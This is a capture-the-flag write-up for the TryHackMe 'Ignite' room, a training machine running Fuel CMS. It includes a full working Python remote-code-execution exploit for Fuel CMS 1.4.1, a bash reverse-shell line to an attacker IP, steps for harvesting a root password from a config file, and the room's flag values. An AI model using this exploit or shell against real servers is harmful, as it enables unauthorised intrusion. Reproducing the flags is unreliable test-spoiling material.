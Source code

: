 # Ignite

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/bd001816-10a2-47d1-a383-7be389a99ca8)

## Enumeration

we use nmap to scan the target :

```bash
nmap -sT -sV 10.10.128.117
```

opening the browser on machine IP will show some information :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c8c00347-73c8-4ef9-926d-d29fa78eef2b)

with some extra information showing the location of config files :

![configFiles](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5686dbcd-c9f4-4a27-8951-666f078f27d1)

as it is obvious the username and password for logging in is `admin:admin`

in the CMS itself there is no way to upload a file (at least i tried verious extensions) but none of the worked.

i decided to search for `fuel cms` exploit wtih `searchsploit` :

```bash
searchsploit fuel cms
```

![searchsploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e6947bc4-4829-446a-9b3e-11427b29f5da)

it shows that version `1.4.1` has remote code execution vulnerability, so download the exploit `47138.py` from exploit-db.com

![exdb](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8eb1c17c-2b47-45d9-9b31-21f70afae927)

from the original code you need to change afew things :

![code](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/83f8a4b2-8d98-441c-bf2d-f91eab06ca6f)

```md
1.Change the url to machine IP address
2.Comment out the proxy line
3.Remove the proxies=proxy parameter
```

the final code should be like this :

```python
import requests
import urllib

url = "http://10.10.128.117:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

## Getting Shell

now execute it with `python2`, it gives you a `cmd` that you can run command with it, for example `ls` :

![cmd](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/38c85ca2-99ba-4550-8d9e-c27429a5a6d3)

you just need to upload your reverse shell to the target so i used bash revshell and saved it to a file call `r.sh` :

```bash
bash -i >& /dev/tcp/10.6.74.10/4444 0>&1
```

use python to make the file downloadable for the target :

```python
pythn3 -m http.server 8080
```

and get the file from the victim :

![wget](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/2edb533f-3dab-4211-bc39-eaa5971276f1)

after downloading the file on the victim now its time to execute it, first listen on your desired port with `nc` like `nc -nvlp 4444` :

![bash](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/08309f4c-f1bf-494c-ae17-c607353db37e)

navigate to `/home/www-data` and cat the `flag.txt` file, this is your first flag :

```bash
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

## Privilege Escalation

you can do multiple things here for example uploading `Linpeas.sh` on the target but if you remember from the first page of the site where

it showed multiple configuration files in `fuel/application/config` directory, let's explore this directory to find anything interesting :

![dir](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e3b999aa-57d2-482f-8af1-e9d13a3ac709)

cat the content of `database.php`

![database](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a2c3f076-3b7f-4195-b1d0-c11800813c11)


yes, the root password is here, we just need to switch to `root` account.

but if we use `su root` we get and error saying `su: must be run from a terminal`

so we first need to escalate the terminal, to do this use the code below :

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
now use `su root` and provide the password.

cat the content of `/root/root.txt` :

```bash
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

this is the end of Ignite challenge :)
